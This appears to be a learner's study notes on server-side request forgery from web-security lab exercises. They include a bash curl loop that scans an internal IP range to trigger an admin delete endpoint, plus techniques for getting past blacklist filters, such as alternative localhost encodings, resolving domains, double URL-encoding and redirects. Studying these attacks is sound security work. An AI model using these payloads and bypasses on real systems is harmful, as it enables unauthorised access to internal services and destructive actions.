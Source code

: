 ## Server side forgery request (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a case, we might have a website that requests an API for information, we might change the API link into localhost, and try to perform privileged operations.

example : 

    http://localhost/admin/delete?username=carlos

small bash script to realize that :

    for i in {1..255}; do
        curl  -X POST https://0a0100d603a48ce5814f89b400f0003b.web-security-academy.net/product/stock -d "stockApi=http%3a%2f%2f192.168.0.$i%3a8080%2fadmin%2fdelete%3fusername%3dcarlos" -o /dev/null -w "%{http_code}\n" -s
    done

## SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using the following techniques:

* Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
* Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
* Obfuscate blocked strings using URL encoding or case variation.
* Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

Sometime, if it's still not working we might need to use some obfuscation example a =  %2561 // didn't know how nor why it work, need to see some obfuscation modules

some times we might add the evil url : example

    <url>&path=http://192.168.0.68/admin


## Blind SSRF vulnerabilities
Blind SSRF vulnerabilities occur if you can cause an application to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF is harder to exploit but sometimes leads to full remote code execution on the server or other back-end components.

// for the lab, need to see in in HTB since burp collaborator is not for free :(

    